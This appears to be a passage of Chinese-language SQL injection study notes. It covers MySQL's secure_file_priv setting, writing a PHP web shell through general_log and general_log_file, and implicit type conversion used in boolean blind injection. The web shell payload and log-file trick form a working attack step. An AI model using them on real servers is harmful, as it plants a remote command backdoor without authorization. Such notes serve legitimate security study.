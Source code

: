 * secure-file-priv参数是用来限制LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE()传到哪个指定目录的。

* mysql --secure-file-priv=null 限制mysqld的导入和导出，完全禁止出。

* mysql --secure-file-priv=/xx/xx 限定输出目录为/xx/xx

```bash
mysql> show global variables like '%secure%';

+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_auth      | OFF   |
| secure_file_priv | NULL  |
+------------------+-------+
```

默认为null 不允许导入导出。my.cnf/my.ini修改参数值。

### 通过general_log和general_log_file

开启general_log

```sql

show global variables like "%general%";
show global variables like "%secure%";
set global general_log='on';
SET global general_log_file='/xxx/1.php';
SELECT '<?php assert($_POST["cmd"]);?>';
```

***

## 布尔盲注

### 比较时存在MYSQL隐式类型转换

* 如果两个参数比较，有至少一个NULL，结果就是NULL，除了是用NULL比较NULL 会返回1。不做类型转换。
* 两个参数都是字符串，按照字符串比较。不做类型转换
* 两个参数都是整数，按照整数比较。不做类型转换
* 有一个参数是 TIMESTAMP 或 DATETIME，并且另外一个参数是常量，常量会被转换为时间戳
* 所有其他情况下，两个参数都会被转换为浮点数再进行比较

字符串与数字比较，会将字符串转换成浮点数。转换结果为0 ，如果数字开头会从数字部分截断进行比较。
通常在现实中注入点一般为字符注入，少有数字注入点，如；

 ```sql
 select pass form user where name = "name";
```

这时输入的数字会转化为字符串：

```shell
mysql> select * from user where name=0;
+----+--------+--------+
| Id | name   | pass   |
+----+--------+--------+
|  1 | admin  | admin  |
|  2 | admin2 | admin2 |
|  3 | admin3 | admin3 |
|  5 | nana   | nana   |
+----+--------+--------+
4 rows in set, 3 warnings (0.00 sec)

mysql> select * from user where name='0';
Empty set (0.00 sec)
```
